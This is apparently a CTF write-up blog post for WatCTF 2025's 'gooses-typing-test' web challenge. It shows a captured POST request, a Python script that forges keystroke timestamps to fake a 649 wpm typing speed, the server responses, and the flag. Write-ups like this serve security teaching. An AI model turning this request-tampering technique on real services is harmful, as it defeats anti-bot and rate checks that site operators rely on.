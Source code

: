 ```yaml
---
layout: post
title:  "gooses-typing-test"
date:   2025-09-11 18:47:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /watctf-2025-gooses-typing-test/
---
```


**Title:** gooses-typing-test

**Category:** web

**Author:** [virchau13](https://github.com/virchau13)

**Description:** Are you a good typer? The Goose challenges you!

`http://challs.watctf.org:3050/`

I go to the site and it is a typing speed test. On the page, if the expected word is `yes`, the only character you can enter is `y`, then `e`, etc.

I finish the typing test to see the request made when you finish:
```http
POST /doneTest HTTP/1.1
Host: challs.watctf.org:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challs.watctf.org:3050/
Content-Type: application/json
Content-Length: 10990
Origin: http://challs.watctf.org:3050
DNT: 1
Connection: keep-alive
Priority: u=0

{
  "startPoint":1757448562219,
  "typed":[
    {
      "key":"p",
      "time":1757448562280
    },
    {
      "key":"o",
      "time":1757448562316
    },
...
```

It sends json to the server containing the starting time and the time each key was pressed. Here is the response:
```json
{
  "msg":"Good job on getting 80 wpm! Next, try to aim for 500 wpm to get a special reward!"
}
```

I save the post request json contents to a file so I can easily change it and send it. I make this python script to get the flag:
```python
import json
import requests
import random

url = "http://challs.watctf.org:3050/doneTest"
headers = {"Content-Type": "application/json"}
file_path = "req.txt"

with open(file_path) as f:
    data = json.load(f)

start = data["startPoint"]
for i, k in enumerate(data["typed"]):
    k["time"] = start + i*14 + random.randint(-5, 5)

resp = requests.post(url, headers=headers, json=data)
print(resp.status_code, resp.text)
```

I changed the timing until I got it right:
```shell
python3 solve.py  
400 {"error":"too fast, you're obviously using a script"}

python3 solve.py  
200 {"msg":"Good job on getting 379 wpm! Next, try to aim for 500 wpm to get a special reward!"}

python3 solve.py  
200 {"msg":"Wow... you're really fast at typing (649.0696668109044 wpm)! Here's your reward: watctf{this_works_in_more_places_than_youd_think}"}
```
`watctf{this_works_in_more_places_than_youd_think}`